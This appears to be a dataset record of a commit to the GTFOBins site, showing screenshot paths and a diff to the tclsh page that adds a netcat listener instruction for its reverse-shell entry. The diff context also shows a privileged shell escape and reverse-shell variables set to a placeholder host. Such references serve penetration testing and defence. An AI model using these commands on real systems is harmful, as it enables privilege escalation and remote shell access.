

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/tclsh.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 963 px from its top, so only the background shows below that.

Commit message:
Add tclsh reverse shell description

```diff
--- a/_gtfobins/tclsh.md
+++ b/_gtfobins/tclsh.md
@@ -13,7 +13,7 @@ functions:
         ./tclsh
         exec /bin/sh -p <@stdin >@stdout 2>@stderr
   reverse-shell:
-    - description:
+    - description: Run `nc -l -p 8000` to receive the shell on the other end.
       code: |
         export RHOST=10.0.0.1
         export RPORT=8000
```
